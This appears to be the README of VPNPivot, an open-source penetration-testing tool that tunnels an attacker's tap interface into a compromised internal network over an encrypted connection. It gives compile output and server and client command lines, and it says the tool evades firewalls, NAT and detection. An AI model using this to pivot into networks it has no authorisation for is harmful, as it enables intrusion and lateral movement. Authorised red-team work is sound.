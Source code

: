 VPN Pivot!
===================
You can find here a tutorial about how to use VPNPivot with examples : http://blog.0x36.org/?p=57

Sometime we do external penetration testing and when we compromise the remote target we would love to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files ... etc.
There are many techniques like port forwarding, socks4 ..., but each one has its pros and cons . this is the reason why VPN pivoting techniques is out , it solves all the problems encountered by using both of the techniques mentioned above.
it lets you interact with internal networks that are prevented by firewalls,NATs .. etc

This an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a shared key between the target machine and the attacker.
 
----------


How it works
-------------
VPN Pivot sends and receive a fully encrypter TCP/IP stack over TCP socket,then the peers forward it into the desired device.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured . the used IP will never be reachable which makes him harder to track.

>**VPN Server: **
The VPNPivot server must be run in the the attacker machine, it creates a a virtual device (tap)  with the possibility to change MAC (that seems fine for spoofing and Mac switching) , IP address , MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can intercats with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

>**VPN Client: **
The VPN Pivot client must be run in the target machine, it creates two socket files , the first as client for the tunnel and the second for interacting with the device directly.
it works like we are creating a undetectable tap device which makes it harder to detect.
 
---------

Usage
-------------
**Compilation :**
```shell
~/projects/VPNPivot$ make
  [CC] vpnp_server.o
  [CC] crypto.o
  [BIN] vpnp_server
  [CC] vpnp_client.o
  [BIN] vpnp_client
  ---------
**vpnp_server :**
> ./vpnp_server -i pwn0 -I 10.10.10.145/24 -m 1500 -H 0c:0a:DE:AD:BE:EF -K "I0wnY0u*!" -v**
[+] Setup a non-persistent tap : pwn0
[+] Listening on port : 12345
```
So it creates an a tap device named pwn0 as shown bellow:
```shell
~$ ifconfig pwn0
pwn0      Link encap:Ethernet  HWaddr 0c:0a:de:ad:be:ef  
          inet adr:192.168.200.70  Bcast:192.168.200.255  Masque:255.255.255.0
          adr inet6: fe80::887e:86ff:fe8a:3599/64 Scope:Lien
          UP BROADCAST RUNNING  MTU:1500  Metric:1
          Packets reçus:0 erreurs:0 :0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:500 
          Octets reçus:0 (0.0 B) Octets transmis:0 (0.0 B)
```
finally, it waits for the client to be connected 
```shell
**vpnp_client :**
> Usage : 
./vpnp_client 10.254.30.53 12345 10.10.10.1 "I0wnY0u*!"
```
That's it :-) , enjoy your pwning 

TODO
-------------
The main focus for the moment is to port the client to windows, The client is mainly designed to be portable and doesn't require any dependencies, 
Since windows doesn't support data link layer manipulation with WinSock ,thus we should hook some kernel function (NDIS hooks?).


